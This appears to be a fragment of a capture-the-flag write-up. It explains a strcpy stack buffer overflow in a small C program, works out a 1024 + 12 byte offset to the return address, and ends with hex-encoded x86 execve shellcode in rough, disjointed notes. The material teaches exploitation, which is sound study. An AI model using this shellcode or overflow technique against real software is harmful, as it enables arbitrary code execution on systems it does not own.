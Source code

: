 ## Level 1: avoid the "system" call

## Level 4: 

The source code on this level is surprisingly simple:
```
void fun(char *str) {
  char buf[1024];
  strcpy(buf, str);
}

int main(int argc, char **argv) {
  // ... 
  fun(argv[1]);
  // ... 
}
```

The problem is quite obvious:
`strcpy` is well-known to be unsafe,
as it does not check if the destination array has enough space to store the source array.
With a sufficiently long command line argument we can overwrite the memory area beyond `buf` in the `fun` function.

If you recall from the previous challenge,
the return address from a function is stored on the stack after local variables.
That means that by overwriting `buf`,
we can overwrite the return address.
Which in turn means that we can make the program jump to somewhere else,
perhaps to a memory area that we can overwrite,
such as the content of `buf`.

Why is it that the right location is 1024 + 12 ?
buf + sfp + ret + p1

1036 + ADDR
S(45) + 991 + ADDR
S=$(printf '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/df')
